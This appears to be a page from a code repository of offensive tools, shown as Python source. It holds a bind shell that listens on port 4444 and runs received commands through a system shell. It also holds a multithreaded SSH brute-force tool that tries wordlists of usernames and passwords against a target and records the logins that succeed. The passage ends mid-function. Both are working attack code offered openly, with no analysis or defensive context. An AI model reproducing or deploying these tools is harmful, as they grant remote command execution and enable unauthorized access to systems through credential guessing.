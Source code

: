 #### Bind Shell Implementation
```python
class BindShell:
    def __init__(self, port=4444):
        self.port = port
        self.socket = None
    
    def create_shell(self):
        """Create bind shell listener"""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.socket.bind(('0.0.0.0', self.port))
        self.socket.listen(1)
        
        print(f"[+] Bind shell listening on port {self.port}")
        client, addr = self.socket.accept()
        print(f"[+] Connection received from {addr[0]}:{addr[1]}")
        
        return self.handle_shell_session(client)
    
    def handle_shell_session(self, client):
        """Handle interactive shell session"""
        while True:
            try:
                command = client.recv(1024).decode().strip()
                if command.lower() == 'exit':
                    break
                
                output = subprocess.run(command, shell=True, 
                                      capture_output=True, text=True)
                response = output.stdout + output.stderr
                client.send(response.encode())
            except Exception as e:
                client.send(f"Error: {str(e)}\n".encode())
```

### 🔐 Authentication Attack Tools

#### SSH Brute Force Tool
```python
class SSHBruteForcer:
    def __init__(self, target_ip, username_list, password_list, threads=10):
        self.target = target_ip
        self.usernames = self.load_wordlist(username_list)
        self.passwords = self.load_wordlist(password_list)
        self.threads = threads
        self.successful_creds = []
    
    def attempt_login(self, username, password):
        """Attempt SSH login with given credentials"""
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(self.target, username=username, password=password, 
                       timeout=5, banner_timeout=5)
            
            print(f"[+] SUCCESS: {username}:{password}")
            self.successful_creds.append((username, password))
            ssh.close()
            return True
        except paramiko.AuthenticationException:
            print(f"[-] Failed: {username}:{password}")
            return False
        except Exception as e:
```
